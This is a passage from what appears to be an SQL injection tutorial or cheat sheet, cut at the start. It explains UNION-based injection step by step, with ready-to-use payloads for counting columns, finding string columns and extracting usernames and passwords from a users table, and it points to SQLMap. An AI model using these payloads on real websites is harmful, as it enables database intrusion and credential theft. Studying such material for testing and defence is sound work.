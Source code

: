     # and so on until an error occurs

(The last value before the error would indicate the number of columns.)

The second one (most common and effective), would involve submitting a series of UNION SELECT payloads with a number of NULL values:

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    
    # until the error occurs

No error = number of NULL matches the number of columns.

**Finding columns with a useful data type in an SQL injection UNION attack:**

You can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In case of 4 you would submit:

    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--

No error = data type is useful for us (string).

**Using an SQL injection UNION attack to retrieve interesting data:**

When you have determined the number of columns and found which columns can hold string data, you can finally start retrieving interesting data.

Suppose that:

- The first two steps showed exactly two existing columns with useful datatype.
- The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the user's table by submitting the input:

    ' UNION SELECT username, password FROM users --

Here's a small list ofhing you'd want to retrieve:

- database()
- user()
- @@version
- username
- password
- table_name
- column_name


    ?id=1' UNION SELECT username, password FROM users -- 

####SQLMap

[SQLMap](http://sqlmap.org)
